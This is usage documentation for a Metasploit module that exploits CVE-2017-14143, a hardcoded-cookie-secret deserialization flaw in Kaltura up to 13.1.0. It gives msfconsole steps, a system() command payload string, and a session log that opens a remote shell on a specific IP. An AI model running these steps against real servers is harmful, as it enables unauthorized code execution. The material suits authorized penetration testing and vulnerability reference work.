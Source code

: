 ## Description 

The getUserzoneCookie function in Kaltura before 13.2.0 uses a hardcoded cookie secret to validate cookie signatures, which allows remote attackers to bypass an intended protection mechanism and consequently conduct PHP object injection attacks and execute arbitrary PHP code via a crafted userzone cookie. 
 

## Vulnerable Application

 This module exploits a remote code execution within the Kaltura(<=13.1.0) via a cookie deserialization.
 Vulnerability reference- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14143.


## Verification Steps

 1. Start msfconsole
 2. use exploit/linux/http/kaltura_unserialize_cookie_rce
 3. set RHOST https://example.com (or IP address)
 4. set ENTRYID 0_xxxxxxxx
 5. set payload generic/custom
 6. set payloadstr "system('command you want to execute, eg.- ls -la');"
 7. run


## Options

 default RPORT 4444


## Scenarios

 ```
 msf use exploits/linux/http/kaltura_unserialize_cookie_rce
 msf exploit(kalkutra_unseialize_cookie_rce) set RHOST 46.101.209.202
 RHOST => 46.101.209.202
 msf exploit(kalkutra_unseialize_cookie_rce) set LHOST 192.168.1.16
 LHOST => 192.168.1.16
 msf exploit(kalkutra_unseialize_cookie_rce)>check
 [+] 46.101.209.202:4444 The target is vulnerable.
 msf exploit(kalkutra_unseialize_cookie_rce)>run
 [*] Started bind handler
 [*] Output:
 [*] Command shell session 1 opened (192.168.1.16:36865 -> 46.101.209.202:4444) at 2017-09-04 12:09:03 +0200

 id
 uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```

